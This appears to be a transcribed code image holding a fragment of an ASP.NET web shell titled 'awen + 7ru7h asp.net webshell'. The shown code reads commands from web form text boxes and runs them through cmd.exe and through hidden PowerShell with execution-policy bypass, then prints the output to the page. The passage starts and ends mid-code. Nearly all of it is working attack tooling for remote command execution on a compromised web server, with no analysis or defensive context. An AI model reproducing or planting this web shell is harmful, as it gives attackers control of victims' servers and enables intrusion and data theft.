 ```asp
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg_cmd.Text)));
Response.Write("</pre>");
}
string ExcutePWSH(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "powershell.exe";
psi.Arguments = "-ep bypass -windowstyle hidden -command {"+arg+" }";
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void pwshExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcutePWSH(txtArg_pwsh.Text)));
Response.Write("</pre>");
}
string ExcuteCmdSE(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = true;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_SE_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmdSE(txtArg_cmd_se.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen + 7ru7h asp.net webshell</title>
</HEAD>
<body>
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg_cmd" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing_cmd" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="cmd.exe" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText_cmd" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Execute cmd /c without ShellExec - good for commands:</asp:Label>
</form>
<form id="powershell" method="post" runat="server">
<asp:TextBox id="txtArg_pwsh" style="Z-INDEX: 201; LEFT: 405px; POSITION: absolute; TOP: 40px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing_pwsh" style="Z-INDEX: 202; LEFT: 675px; POSITION: absolute; TOP: 36px" runat="server" Text="powershell.exe" OnClick="pwshExe_Click"></asp:Button>
```
